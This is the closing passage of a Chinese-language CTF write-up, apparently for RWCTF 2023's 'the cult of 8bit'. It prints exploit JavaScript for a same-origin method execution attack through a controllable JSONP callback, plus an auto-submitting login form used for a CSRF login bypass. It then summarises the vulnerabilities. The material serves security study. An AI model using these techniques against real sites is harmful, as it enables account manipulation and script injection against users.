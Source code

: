 ```html
        await sleep(1000);
        page.close();

        // delete cookie
        await delete_csrf();

        // login
        page = open(`/login.html`);
        await sleep(1000);
        page.close();

        // attack with clicking the todo link
        PAYLOAD = `opener.document.links[5].click`;
        page = open(`http://localhost:12345/post/?id=id?callback=${PAYLOAD}%23%00`);
        location.replace("http://localhost:12345");
    })()
</script>
```

`login.html` :
```html
<body>
    <form action="http://localhost:12345/api/login" method="POST">
        <input class="input" type="text" placeholder="Username" name="user"
        value="SSSSilentE"/>
        <input class="input" type="password" placeholder="Password" name="pass"
        value="SSSSilentE"/>
        <input type="submit" value="Login"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
```

两种方法的回显：

![](https://cdn.silente.top/img/p3.png)

## 总结

题目主要的漏洞点在于 jsonp 的 callback 可控，从而能够 SOME attack。当然还有一个关于 csrf 的写法问题导致了对于 csrf 的绕过，一个对于模板渲染的处理不当导致了元素属性的脚本注入。

这题确实从中学了挺多东西，xsleaks 的构造也挺有趣的。

## Ref
- https://h4cking2thegate.github.io/2023/01/10/RWCTF2023-the-cult-of-8bit/
- Sndav
- https://sh1yo.art/ctf/thecultof8bit/